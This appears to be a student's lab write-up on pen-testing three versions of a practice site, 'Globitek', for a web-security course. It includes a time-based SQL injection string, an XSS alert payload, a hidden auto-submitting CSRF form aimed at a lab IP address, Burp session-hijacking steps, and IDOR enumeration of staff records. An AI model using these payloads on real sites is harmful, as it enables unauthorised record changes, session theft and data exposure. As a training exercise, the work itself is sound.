 # Pen Testing Live Targets

Time spent: **34** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

- [ ] Vulnerability #1: SQL Injection (SQLi)

* The Attacker is Injects a sql command instead of the proper Salesperson's ID Number.
* Injected SQL Command: ``%27%20OR%20SLEEP(5)=0--%27``

<img src="2022-11-02 23-56-43.gif">

- [ ] Vulnerability #1: Session Hijacking/Fixation

* The Victim's session ID is obtained through the tool that is provided by the codepath

<img src="2022-11-03 01-21-48_Trim.gif">

* Using burp, I intercept the attacker's access attempt to and secure site
* From the intercepted packet, I modify the session ID to the one we obtained from the Victim

<img src="2022-11-03 01-26-48.gif">

* Once the packet is forwarded, I logged in using the Victim's session ID

## Green

- [ ] Vulnerability #1: Cross-Site Scripting (XSS)

* I inject an XSS in their feedback form.
* Injected XSS Command:
``<script>alert('Jinwoo found the XSS!');</script>``
* This XSS runs as soon as the account holder checks their feedback page

<img src="2022-11-03 00-24-27.gif">

- [ ] Vulnerability #2: Username Enumeration

* As you can see, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.

<img src="2022-11-03 00-02-51.gif">

* I used Chrome's debugging tool and was able to see that the Developer assigns two different classes, failed and failure, to the error message depending on the login senerio.
* The "failure" class is applied an bold style in css while "failed" class doesn't. (Screen shots below)

<img src="Screenshot 2022-11-03 001251.png">

<img src="Screenshot 2022-11-03 022628.png">

## Red

- [ ] Vulnerability #1: Cross-Site Request Forgery (CSRF)

* I created a HTMP form using https://www.w3schools.com/tags/att_a_download.asp using this code:
```
<html>
  <head>
    <title>NOT A FAKE FORM</title>
  </head>
  <body onload="document.my_form.submit()">
    <form action="https://35.184.199.7/red/public/staff/salespeople/edit.php?id=5" method="POST" name="my_form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="TROLLEDDDD" />
      <input type="text" name="last_name" value="SORRY_Mr.Barker" />
      <input type="text" name="phone" value="777-777-7777" />
      <input type="text" name="email" value="TROLLED@TORLLED.COM" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>

```
- [ ] Vulnerability #2: Insecure Direct Object Reference (IDOR)

* Above GIF show an attacker getting access to the hidden user's accounts that the attacker is not permitted to view.
* This is done through modifying the "id" parameter in the URL's to change the GET request.

<img src="2022-11-03 02-32-34.gif">

* You may find a few other. For example, if you change the id to 11, you can find a former employe named Lazy. 

<img src="Screenshot 2022-11-03 023818.png">

* Some other you can access are: 
 - ID: 1: Daron Burke
 - ID: 2: Sherry Trevino
 - ID: 3: Irene Boliing
 - ID: 4: Robert Hamilton
 - ID: 5: Ken Barker
 - ID: 6: Elizabeth Olson
 - ID: 7: Samuel Hunter
 - ID: 8: Kim Stanley
 - ID: 9: Barbara Hinckley
 
## Notes

- [ ] Blue

* Had trouble with Session Hijacking/Fixation. It wouldn't let me hihack the session even though I had the php id. But I just refreshed burp a few times until it worked.

- [ ] Green

* With the Cross-Site Scripting (XSS), I had trouble withe the script. It was fristrationg until I realized that I misspelled a word in the script.

- [ ] Red

